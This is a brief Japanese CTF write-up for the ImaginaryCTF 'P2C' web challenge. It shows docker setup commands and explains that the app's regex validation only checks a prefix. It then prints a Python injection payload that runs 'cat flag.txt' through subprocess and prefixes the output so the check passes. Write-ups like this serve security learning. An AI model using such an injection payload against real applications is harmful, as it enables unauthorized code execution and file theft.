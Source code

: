 # P2C

## 問題 環境構築

### 追加ファイル

- app/flag.txt

### 実行コマンド

```
docker build -t ImaginaryCTF/p2c .
```

```
docker run -p 8080:80 --name p2c ImaginaryCTF/p2c
```

## Writeup

/app/app.py


```python
valid.match("".join(res.strip().split("\n")[-1]))
```

``match``関数は前方一致すれば``True``


実行コード

```python
import subprocess
output_str = subprocess.run(["cat", "flag.txt"], capture_output=True, text=True).stdout
print("(255, 255, 255)"+output_str)
import sys
sys.exit(0)
```

## 参考

- https://blog.hamayanhamayan.com/entry/2024/07/22/145709#web-P2C